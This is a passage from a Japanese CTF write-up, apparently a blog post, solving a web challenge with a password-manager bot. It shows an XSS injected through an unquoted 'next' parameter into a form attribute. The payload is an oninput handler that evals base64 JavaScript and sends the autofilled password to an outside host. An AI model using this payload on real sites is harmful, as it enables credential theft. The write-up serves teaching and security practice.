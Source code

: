 適当なユーザ名とパスワードを入力するとログインでき、以下のような画面が表示されました。

![機能が充実している](../images/2020-04-13_pm2.png)

URL の報告だけができるようです。とりあえず [Webhook.site](https://webhook.site/) で URL を生成して投げると、`Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0` という User-Agent のブラウザからアクセスが来ました。

バージョンはちょっと古いですが、[CONFidence CTF 2020 Teaser の Cat Web](2020-03-15-confidence-2020-ctf.html#web-157-cat-web-24-solves) のように使えそうな脆弱性は見つかりません。この Web アプリケーション内に脆弱性がないか探してみましょう。

ログアウトしてみると `/login?next=` にリダイレクトされました。この `next` という GET パラメータはどこに使われるのでしょう。`/login?next=abc%20<>"%27` にアクセスすると以下のような HTML が返ってきました。

```html
            <form method="post" action=abc &lt;&gt;&#34;&#39;>
                <input name="username" id="sfrusername" type="text" placeholder="Username"/>
                <br>
                <input name="password" id="sfrpassword" type="password" placeholder="Password" />
                <br>
                <button class="good" type="submit">Login</button>
            </form>
```

`<` や `>` といった特殊な文字はエスケープされていますが、`form` の属性で XSS ができそうな雰囲気があります。

ヒントによればパスワードマネージャの拡張機能を使っているようですから、このフォームのユーザ名とパスワードに自動でなにか入力されるのでしょう。`form` の属性で使えそうなものを調べていると、[`oninput`](https://developer.mozilla.org/ja/docs/Web/API/GlobalEventHandlers/oninput) というイベントハンドラが見つかりました。

`(new Image).src='http://(省略)?'+document.getElementById('sfrpassword').value` を Base64 エンコードした上で

```
http://(省略)/login?next=a%20oninput=eval(atob(`(Base64 エンコードした JavaScript コード)`))
```

という URL を投げると、JavaScript コード中で指定した URL にパスワードが飛んできました…が、これをログインフォームで `admin` のパスワードとして入力してもログインに失敗します。
